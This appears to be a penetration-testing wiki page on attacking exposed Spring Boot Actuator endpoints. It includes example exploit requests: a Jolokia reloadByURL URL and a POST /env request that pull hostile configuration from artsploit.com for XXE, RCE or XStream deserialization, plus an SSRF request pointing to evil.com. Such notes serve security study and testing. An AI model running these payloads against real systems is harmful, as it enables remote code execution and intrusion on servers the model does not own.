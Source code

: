 # Spring Actuators


## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

* Spring Boot Actuators register endpoints such as `/health`, `/trace`, `/beans`, `/env`, etc. In versions 1 to 1.4, these endpoints are accessible without authentication. From version 1.5 onwards, only `/health` and `/info` are non-sensitive by default, but developers often disable this security.
* Certain Actuator endpoints can expose sensitive data or allow harmful actions:
  * `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.
* In Spring Boot 1.x, actuators are registered under the root URL, while in 2.x, they are under the `/actuator/` base path.

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
   * The `/jolokia` actuator endpoint exposes the Jolokia Library, which allows HTTP access to MBeans.
   * The `reloadByURL` action can be exploited to reload logging configurations from an external URL, which can lead to blind XXE or Remote Code Execution via crafted XML configurations.
   * Example exploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:
   * If Spring Cloud Libraries are present, the `/env` endpoint allows modification of environmental properties.
   * Properties can be manipulated to exploit vulnerabilities, such as the XStream deserialization vulnerability in the Eureka serviceURL.
   *   Example exploit POST request:

       ```
       POST /env HTTP/1.1
       Host: 127.0.0.1:8090
       Content-Type: application/x-www-form-urlencoded
       Content-Length: 65

       eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
       ```
3. **Other Useful Settings**:
   * Properties like `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, and `spring.datasource.tomcat.max-active` can be manipulated for various exploits, such as SQL injection or altering database connection strings.

### **Additional Information:**

* A comprehensive list of default actuators can be found [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* The `/env` endpoint in Spring Boot 2.x uses JSON format for property modification, but the general concept remains the same.

### **Related Topics:**

1. **Env + H2 RCE**:
   * Details on exploiting the combination of `/env` endpoint and H2 database can be found [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
   * The Spring framework's handling of matrix parameters (`;`) in HTTP pathnames can be exploited for Server-Side Request Forgery (SSRF).
   *   Example exploit request:

       ```http
       GET ;@evil.com/url HTTP/1.1
       Host: target.com
       Connection: close
       ```

